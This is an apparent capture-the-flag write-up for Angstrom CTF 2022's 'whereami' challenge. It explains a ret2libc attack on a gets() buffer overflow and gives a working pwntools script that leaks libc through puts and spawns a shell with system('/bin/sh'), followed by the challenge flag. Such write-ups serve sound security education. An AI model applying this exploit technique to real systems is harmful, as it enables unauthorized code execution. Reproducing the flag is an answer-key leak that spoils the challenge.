```yaml
---
title: "[Pwn] whereami [Angstrom CTF 2022]"
date: 2022-05-06 23:48:00
---
```


# 0x0 Introduction

Click on the eyes.

@_@

nc challs.actf.co 31222

files: [whereami](whereami), [libc.so.6](libc.so.6)

# 0x1 Mitigation

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```


# 0x2 Vulnerability

classic **ret2libc** chall, in function `main` there is a `gets` function. We can use this `gets` to construct rop chain. 

One thing to notice is that function `main` have a counter, counter increase by 1 everytime we call `main`. if counter is larger than 0, program will exit immediately. Therefore, in the first ropchain, we also need to set counter back to 0.

So, we need to construct following rop chain.

first ropchain
```
puts(got.printf) # leak libc address
gets(obj.counter) # set counter to 0
main()
```

second ropchain
```
sysmte("/bin/sh")
```

then we got a shell.


# 0x3 Exploit

```
io = start()
wait_for_debugger(io)

ret_addr = exe_rop.find_gadget(['ret'])[0]
pop_rdi_ret_addr = exe_rop.find_gadget(['pop rdi', 'ret'])[0]
print(pop_rdi_ret_addr,ret_addr)
io.sendlineafter(b"you?",flat({
    0x40+0x8: [
        ret_addr,
        pop_rdi_ret_addr,
        exe.got["printf"],
        exe.plt["puts"],
        pop_rdi_ret_addr,
        exe.symbols["counter"],
        exe.plt["gets"],
        exe.sym["main"],
    ]
}))
print(io.recvuntil(b'too.\n'))
libc_base_addr = int.from_bytes(io.recvuntil(b'\n',drop=True),"little") - libc.sym["printf"]
input(hex(libc_base_addr))
io.sendline(flat({0:[0]}))
print(hex(libc_base_addr+libc.sym["system"]))
io.sendlineafter(b"you? ",flat({
    0x40:b"AAAAAAAA",
    0x40+0x8: [
        ret_addr,
        pop_rdi_ret_addr,
        libc_base_addr+next(libc.search(b"/bin/sh")),
        libc_base_addr+libc.sym["system"],
    ]
}))
io.interactive()

```

# 0x4 Flag

actf{i'd_be_saf3_and_w4rm_if_1_wa5_in_la_5ca5e33ff06f}